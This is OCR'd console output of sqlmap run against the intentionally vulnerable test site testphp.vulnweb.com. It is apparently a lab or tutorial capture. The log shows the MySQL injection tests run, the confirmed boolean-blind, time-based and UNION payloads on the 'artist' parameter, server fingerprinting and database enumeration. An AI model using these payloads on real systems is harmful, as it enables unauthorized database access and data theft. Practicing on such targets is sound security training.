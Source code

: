 BY clause (UPDATEXML)'

[04:02:37] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP 
BY clause (FLOOR)'
[04:02:38] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[04:02:39] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[04:02:40] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[04:02:40] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[04:02:41] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[04:02:41] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[04:02:42] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[04:02:43] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[04:02:43] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[04:02:44] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[04:02:45] [INFO] testing 'MySQL inline queries'
[04:02:45] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[04:02:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[04:02:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[04:02:47] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[04:02:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[04:02:48] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[04:02:49] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[04:03:01] [INFO] GET parameter 'artist' appears to be 'MySQL >= 5.0.12 AND time-based blind (query 
SLEEP)' injectable 
[04:03:01] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[04:03:01] [INFO] automatically extending ranges for UNION query injection technique tests as there is at 
least one other (potential) technique found
[04:03:02] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find 
the right number of query columns. Automatically extending the range for current UNION query injection 
technique test
[04:03:04] [INFO] target URL appears to have 3 columns in query
[04:03:08] [INFO] GET parameter 'artist' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'artist' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 56 HTTP(s) requests:
---
Parameter: artist (GET)
 Type: boolean-based blind
 Title: AND boolean-based blind - WHERE or HAVING clause
 Payload: artist=1 AND 3786=3786
 Type: time-based blind
 Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
 Payload: artist=1 AND (SELECT 2060 FROM (SELECT(SLEEP(5)))tCWc)
 Type: UNION query
 Title: Generic UNION query (NULL) - 3 columns
 Payload: artist=-9216 UNION ALL SELECT 
CONCAT(0x716b767671,0x4e4b464b437157776f597753534c536944624d4f70486476575272696e6479797
84a426341426f75,0x7176787171),NULL,NULL-- -
---
[04:03:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12
[04:03:40] [INFO] fetching database names
available databases [2]:
[*] acuart
[*] information_schema
[04:03:41] [INFO] fetched data logged to text files under 
'/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'
[04:03:41] [WARNING] your sqlmap version is outdated
[*] ending @ 04:03:41 /2024-11-02/
